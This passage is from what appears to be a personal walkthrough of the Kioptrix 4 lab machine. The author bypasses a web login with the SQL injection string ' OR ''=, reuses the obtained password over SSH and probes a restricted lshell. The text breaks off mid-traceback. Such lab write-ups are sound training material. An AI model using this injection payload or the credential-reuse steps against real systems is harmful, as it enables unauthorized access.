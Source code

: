 After looking around nothing looked easily exploitable so now seemed like a good time to try out some SQL injection.  This one actually took me a while, as while I do have a general idea how it works actually crafting my own query was quite difficult.  

With some help from some beginner guides I realised after going through all the error pages that the password field was injectable but the username field was not.  The reason for this was the username field yielding urls like [
http://192.168.137.135/member.php?username=\%27%20OR%20\%27\%27=\%27](http://192.168.137.135/member.php?username=\%27%20OR%20\%27\%27=\%27), which has the quotation marks escaped.

From the dirb results it was reasonable to assume that john was a user on the box so I tried that.

**Username**: john\\
**Password**: ' OR ''=

![What the hell](/assets/images/kioptrix4/2.png)

Well, that's the oddest user control panel I've ever seen, but what the hell, we got creds.

SSH of Doom
-----------
So I had creds for some useless web app, but hopefully password reuse is in full effect, so I attempted to SSH into the box.  Lo and behold.

```bash
root@kali:~# ssh -l john 192.168.137.135
The authenticity of host '192.168.137.135 (192.168.137.135)' can't be established.
RSA key fingerprint is SHA256:3fqlLtTAindnY7CGwxoXJ9M2rQF6nn35SFMTVv56lww.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.137.135' (RSA) to the list of known hosts.
john@192.168.137.135's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
john:~$ echo $PATH
*** forbidden path -> "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.
```

So, looks like we're heavily restricted, but we're on the box at least.

This one had me stumped for absolutely ages to be honest, with certain results sending me down completely the wrong path. 
```bash
john:~$ echo $SHELL
*** forbidden path -> "/bin/kshell"
```
From that I ended up thinking some really obscure shell program was installed and just spent absolutely ages on completely the wrong solution.  

```bash
john:~$ sudo
Traceback (most recent call last):
  File "/bin/kshell", line 27, in <module>
    lshell.main()
  File "/usr/lib/python2.5/site-packages/lshell.py", line 1219, in main
    cli.cmdloop()
  File "/usr/lib/python2.5/site-packages/lshell.py", line 410, in cmdloop
    stop = self.onecmd(line)
  File "/usr/lib/python2.5/site-packages/lshell.py", line 531, in onecmd
    func = getattr(self, 'do_' + cmd)
  File "/usr/lib/python2.5/site-packages/lshell.py", line 132, in __getattr__
    if self.check_secure(self.g_line, self.conf['strict']) == 1: 
  File "/usr/lib/python2.5/site-packages/lshell.py", line 247, in check_secure
```